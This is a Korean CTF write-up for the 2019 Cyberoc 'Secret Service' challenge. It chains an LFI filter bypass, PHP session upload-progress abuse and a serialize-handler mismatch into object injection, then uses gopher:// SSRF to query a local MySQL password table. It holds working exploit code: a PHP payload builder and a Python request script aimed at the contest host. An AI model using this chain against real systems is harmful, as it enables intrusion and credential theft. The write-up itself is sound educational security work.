

## 19Cyberoc - Secret Service (Hidden Service)

```
Uneducated people (Junior 1st)

Cyberoc19 (2019 Whitehat Contest) - Secret Service Write up
Written by munsiwoo (mun.xiwoo@gmail.com)
```


### Source leak (LFI + PHP Wrapper)

문제에서는 `index.php`의 소스 일부를 제공한다. 해당 소스를 보면 간단한 미티게이션을 우회하고 `LFI`가 가능하다. `LFI`를 `PHP Wrapper`와 연계해서 `index.php`, `config.php`, `helper.php`, `dbconn.php` 등 다양한 소스를 얻을 수 있었다. (미티게이션 우회는 정규식 필터링이 미흡하므로 `php://`에서 `php`대신 `PHP`를 사용하면 된다.)

```php
SimpleRouter::post("/intra/view", function() {
    $service = input("service", false, "post");
    if($service === false)
        return "No such service";

    chdir("intra");
    $service = str_replace("_", "/", $service);
    if(strpos($service, '/') === 0 || preg_match("/^.*(\\.\\.|php).*$/", $service))
        return "Don't cheat!";
    
    include $service.".php";
    chdir("..");
}); 
```

```
service=PHP://filter/convert.base64-encode/resource=index
```


### Attack scenario

1\. `dbconn.php`에는 MySQL 연결 정보가 담겨있는데, 패스워드 부분이 비어있는걸 볼 수 있다.
여기서 "`SSRF`를 통해 `gopher://`를 사용하면 직접 DB에 접근할 수 있겠다." 라고 생각했다.

2\. `config.php`을 보면 `ReportModule`, `LogModule` 이렇게 2개의 클래스가 정의되어 있다.
`ReportModule`의 `send_real` 메소드에서는 `SSRF`가 가능해보였다.

```php
# ReportModule Class
public function send_report() {
    return $this->send_real();
}
private function send_real() {
    $target_host = parse_url($this->target, PHP_URL_HOST);
    if($target_host !== "localhost")
        return "Report can only be sent to localhost";
    
    $curl= curl_init();
    curl_setopt($curl, CURLOPT_URL, $this->target);
    $res = curl_exec($curl);
    curl_close($curl);

    return $res;
}
```

3\. 단 `ReportModule`을 사용하려면 `LogModule`의 특정 메소드(set_rpt_module)를 호출해야 했고, 해당 메소드를 직접적으로 호출하는 코드는 없었다. 따라서 unserialize함수나 phar:// 등을 사용해 `Object Injection`을 해야겠다고 생각했다.

```php
# LogModule Class
public function set_rpt_module($custom_module) {
    if(!method_exists($custom_module, "send_report"))
        return false;
    $this->rpt_module = $custom_module;
    return true;
}
public function __destruct() {
    if($this->rpt_module == null || !method_exists($this->rpt_module, "send_report"))
        return;

    $log_string = "REPORT_LOG";
    $this->write_line($log_string." - ".$this->rpt_module->send_report());
}
```

4\. unserialize 함수를 사용하거나 phar://을 사용할 부분은 딱히 보이지 않았다. 도중 `config.php`에 상단에 있는 ini_set과, `/info`로 접속하면 보여주는 phpinfo 페이지를 보니 세션에 원하는 데이터를 넣고 세션을 역직렬화하는 과정에서 `Object Injection`이 가능해 보였다. (자세한 설명은 아래에서)


### PHP session.upload_progress option

PHP는 업로드 중인 개별 파일의 업로드 진행률을 추적할 수 있도록 `upload_progress` 옵션을 제공한다.
`session.upload_progress.enabled`, `session.upload_progress.cleanup` 이렇게 2개의 옵션은 기본적으로 `On`으로 설정되어 있는데 `session.upload_progress.enabled`가 활성화되어 있으면 `session_start()` 없이 세션을 생성할 수 있다. (업로드 진행률 추적을 위해 세션을 사용) 단,  `session.upload_progress.cleanup` 옵션이 `On`으로 활성화되어 있다면 진행률 추적에 쓰인 세션 파일은 자동으로 삭제된다.

반대로  `session.upload_progress.cleanup` 가 `Off`라면  `session_start()` 없이 내가 원하는 값을 포함한 세션 파일을 생성하고 유지할 수 있다는 의미다.

```
session.upload_progress.enabled = On
session.upload_progress.cleanup = Off
```

문제 또한 위와 같이 설정되어 있었으므로 아래 요청으로 세션에 원하는 데이터를 넣을 수 있었다.

```
------WebKitFormBoundaryUmsB8xWbmldnarAQ
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

munsiwoo
------WebKitFormBoundaryUmsB8xWbmldnarAQ
Content-Disposition: form-data; name="file"; filename="abcd"
Content-Type: text/plain

------WebKitFormBoundaryUmsB8xWbmldnarAQ--
```


### PHP session.serialize_handler option

PHP에서 **session.serialize_handler** 옵션은 세션의 핸들러를 지정해주는 옵션이다.
어떤 방식으로 직렬화, 역직렬화 할지 설정할 수 있으며 기본값은 `php`다.
`php` 말고도 `php_binary`, `php_serialize`, `wddx` 옵션이 있다.

```
Local Value : session.serialize_handler = php
Master Value : session.serialize_handler = php_serialize
```

문제는 위와 같이 `php.ini`에서는  `php_serialize`로 설정해놨고
PHP 페이지에서는 `ini_set()`을 통해 `php`로 재설정했다.
즉, 세션을 직렬화해서 파일에 쓸 때와 읽어서 역직렬화 할 때 서로 다른 방식으로 진행할 수 있다는 것이다.


### Proof of Concept

우선 PHP에 `Object Injection`에 성공한다면 Code Execution이 가능하도록 클래스 하나를 만들어준다.

```php
class A {
    public $cmd;
    function __destruct() {
        eval($this->cmd);
    }
}
```


또한 세션 파일에 내가 원하는 데이터를 포함시킬 수 있도록 `php.ini`에서 다음과 같이 설정해준다.

```
session.upload_progress.enabled = On
session.upload_progress.cleanup = Off
```

위와 같이 설정되어 있을 때 아래 내용으로 `POST` 요청을 하면 세션 파일이 생성되는걸 볼 수 있다.

```
------WebKitFormBoundaryUmsB8xWbmldnarAQ
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

munsiwoo
------WebKitFormBoundaryUmsB8xWbmldnarAQ
Content-Disposition: form-data; name="file"; filename="|O:1:\\"A\\":1:{s:3:\\"cmd\\";s:10:\\"phpinfo();\\";}"
Content-Type: text/plain

------WebKitFormBoundaryUmsB8xWbmldnarAQ--
```

#### session.serialize_handler에 따른 세션 값 차이

* Local Value, Master Value 둘다`php`일 때

```
upload_progress_abc|a:5:{s:10:"start_time";i:1568682523;s:14:"content_length";i:331;s:15:"bytes_processed";i:331;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:3:"abc";s:4:"name";s:41:"|O:1:"A":1:{s:3:"cmd";s:10:"phpinfo();";}";s:8:"tmp_name";s:14:"/tmp/phpHEOzEC";s:5:"error";i:0;s:4:"done";b:1;s:10:"start_time";i:1568682523;s:15:"bytes_processed";i:5;}}}
```

* Local Value, Master Value 둘다 `php_serialize`일 때

```
a:1:{s:19:"upload_progress_abc";a:5:{s:10:"start_time";i:1568682633;s:14:"content_length";i:331;s:15:"bytes_processed";i:331;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:3:"abc";s:4:"name";s:41:"|O:1:"A":1:{s:3:"cmd";s:10:"phpinfo();";}";s:8:"tmp_name";s:14:"/tmp/phpz5NId3";s:5:"error";i:0;s:4:"done";b:1;s:10:"start_time";i:1568682633;s:15:"bytes_processed";i:5;}}}}
```

우선 위 세션 데이터 모두 `session_start()`를 해도 `phpinfo()` 실행은 안 된다.
다만 `php_serialize`일 때 직렬화된 값에서 `ini_set()`로 **session.serialize_handler**을 `php`로 변경해주고 `session_start()`를 하면 정상적으로 `phpinfo()`가 실행되면서 세션 데이터는 아래로 바뀐다.

```
a:1:{s:19:"upload_progress_abc";a:5:{s:10:"start_time";i:1568682633;s:14:"content_length";i:331;s:15:"bytes_processed";i:331;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:3:"abc";s:4:"name";s:41:"|O:1:"A":1:{s:3:"cmd";s:10:"phpinfo();";}
```

```php
<?php
ini_set('session.serialize_handler', 'php');

class A {
    public $cmd;
    function __destruct() {
        eval($this->cmd);
    }
}

session_start();
```

이유는 `php` 옵션은 `|` 파이프 문자로 세션 명과 세션 데이터를 구분하고 (`a|i:1234;`)
`php_serialize` 옵션은 세션 명과 세션 데이터를 `array`로 구분한다. (`a:1:{s:1:"a";i:1234;}`)

```
a:1:{s:19:"upload_progress_abc";a:5:{s:10:"start_time";i:1568683023;s:14:"content_length";i:331;s:15:"bytes_processed";i:331;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:3:"abc";s:4:"name";s:41:"|O:1:"A":1:{s:3:"cmd";s:10:"phpinfo();";}
```

위와 같이 `php_serialize` 방식으로 직렬화된 세션 데이터를 `php` 방식으로 역직렬화한다면

```
array(1) {
  ["a:1:{s:19:"upload_progress_abc";a:5:{s:10:"start_time";i:1568683023;s:14:"content_length";i:331;s:15:"bytes_processed";i:331;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:3:"abc";s:4:"name";s:41:""]=>
  object(__PHP_Incomplete_Class)#1 (2) {
    ["__PHP_Incomplete_Class_Name"]=>
    string(1) "A"
    ["cmd"]=>
    string(10) "phpinfo();"
  }
}
```

이렇게 `|` 가 나오기 전까지는 세션명으로 인식하고 그 후는 세션 데이터로 인식하면서 성공적으로 `Object Injection`을 할 수 있게된다.


### Exploit

```php
<?php
error_reporting(0);
# made by munsiwoo

class ReportModule { public $target; }
class LogModule { public $filename, $rpt_module; }

$rpt_module = new ReportModule();
$rpt_module->target = 'gopher://localhost:3306/_%a7%00%00%01%85%a2%1e%00%00%00%00%40%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%69%6e%74%72%61%5f%6d%61%6e%61%67%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%61%03%5f%6f%73%09%64%65%62%69%61%6e%36%2e%30%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%32%33%34%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%08%35%2e%36%2e%36%2d%6d%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%03%66%6f%6f%03%62%61%72%35%00%00%00%03%73%65%6c%65%63%74%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%76%61%6c%75%65%29%20%66%72%6f%6d%20%69%6e%74%72%61%5f%64%61%74%61%2e%70%61%73%73%77%6f%72%64%3b%01%00%00%00%01';

$log_module = new LogModule();
$log_module->filename = 'log/munsiwoo123';
$log_module->rpt_module = $rpt_module;

echo '|'.str_replace('"', '\\\\"', serialize($log_module));

```

`gopher://localhost:3306/_`뒤에 붙는 데이터는 MySQL 쿼리를 직접 요청할 수 있는 Raw data다. 위에서는 `select group_concat(value) from intra_data.password;` 를 요청하도록 생성했다.

PHP를 실행해서 나온 직렬화된 데이터를 filename에 담아서 세션 데이터에 포함시켜 세션을 생성한다.

```python
import requests as req
# made by munsiwoo

contents = """------WebKitFormBoundaryUmsB8xWbmldnarAQ
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

munsiwoo
------WebKitFormBoundaryUmsB8xWbmldnarAQ
Content-Disposition: form-data; name="file"; filename="|O:9:\\"LogModule\\":2:{s:8:\\"filename\\";s:15:\\"log/munsiwoo123\\";s:10:\\"rpt_module\\";O:12:\\"ReportModule\\":1:{s:6:\\"target\\";s:724:\\"gopher://localhost:3306/_%a7%00%00%01%85%a2%1e%00%00%00%00%40%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%69%6e%74%72%61%5f%6d%61%6e%61%67%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%61%03%5f%6f%73%09%64%65%62%69%61%6e%36%2e%30%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%32%33%34%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%08%35%2e%36%2e%36%2d%6d%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%03%66%6f%6f%03%62%61%72%35%00%00%00%03%73%65%6c%65%63%74%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%76%61%6c%75%65%29%20%66%72%6f%6d%20%69%6e%74%72%61%5f%64%61%74%61%2e%70%61%73%73%77%6f%72%64%3b%01%00%00%00%01\\";}}"
Content-Type: text/plain

------WebKitFormBoundaryUmsB8xWbmldnarAQ--"""

if __name__ == '__main__' :
    url = "http://13.209.230.31/admin"

    headers = {
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryUmsB8xWbmldnarAQ",
        "Cookie": "PHPSESSID=munsiwoo"
    }

    req.post(url, headers=headers, data=contents)
    result = req.get(url, headers=headers).text

    print(result, flush=True)
```




### Reference

[https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html "https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html")
[http://wonderkun.cc/index.html/?p=718](http://wonderkun.cc/index.html/?p=718 "http://wonderkun.cc/index.html/?p=718")
[https://blog.spoock.com/2016/10/16/php-serialize-problem/](https://blog.spoock.com/2016/10/16/php-serialize-problem/ "https://blog.spoock.com/2016/10/16/php-serialize-problem/")
[https://gist.github.com/chtg/f74965bfea764d9c9698](https://gist.github.com/chtg/f74965bfea764d9c9698 "https://gist.github.com/chtg/f74965bfea764d9c9698")
[https://www.zzfly.net/ctf-serialize/](https://www.zzfly.net/ctf-serialize/ "https://www.zzfly.net/ctf-serialize/")
[https://bugs.php.net/bug.php?id=71101](https://bugs.php.net/bug.php?id=71101 "https://bugs.php.net/bug.php?id=71101")
[https://bugs.php.net/bug.php?id=72681](https://bugs.php.net/bug.php?id=72681 "https://bugs.php.net/bug.php?id=72681")
[https://www.php.net/manual/en/session.upload-progress.php](https://www.php.net/manual/en/session.upload-progress.php "https://www.php.net/manual/en/session.upload-progress.php")
[https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler](https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler "https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler")
